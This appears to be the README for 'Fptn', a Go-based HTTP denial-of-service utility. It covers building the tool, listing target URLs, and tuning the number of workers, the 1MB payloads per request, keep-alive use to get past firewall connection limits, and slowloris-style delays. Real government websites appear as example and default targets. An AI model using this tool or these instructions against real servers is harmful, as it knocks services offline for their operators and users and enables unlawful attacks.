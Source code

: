 # Fptn HTTP DoS attack utility

Fptn is a simple HTTP DoS utility which can create a lot of different kinds of HTTP requests. By default it utilizes keep-alive connection to keep TCP connections open for multiple requests. This is useful in situations, when firewall blocks multiple connection attempts from one address. Keep alive can be switched off with `-keep-alive=false` param.

Requests are executed in loop on workers (concurrent go routines). Default number of workers is 20 per URL, but can be set to any number with `-workers` param.

Payload is attached to each request by default. It's 1MB in size, but can be changed with parameter `-payload-length` (in kB) or disabled with `-send-payload=false`.

## Build

Fptn is using packages from standard library only. So build is easy as this:

```
go build fptn.go
```


## Usage

Prepare list of target URLs in text file, each URL on separate line. Then run `fptn` like this:

```
$ cat targets.txt
https://kremlin.ru
https://mil.ru
https://rkn.gov.ru
$ ./fptn -sites-file=targets.txt
```

Other parameters to `fptn`:

```
  -delay int
    	Sleep time in milliseconds between each request per worker. Can be increased for keep-alive attacks similar to slowloris
  -keep-alive
    	Whether to use keep-alive connections (true), or initiate new TCP connection on each request (false) (default true)
  -method string
    	HTTP method to use. Use HEAD for low bandwidth attacks (default "GET")
  -payload-length int
    	Payload length in kilobytes (default 1024)
  -send-payload
    	Attach payload with random content to each request (default true)
  -site string
    	Site URL to attack (default "https://kremlin.ru")
  -sites-file string
    	Path to file with URLs, each on a new line (default "./sites.txt")
  -workers int
    	Number of workers per URL (default 20)
```
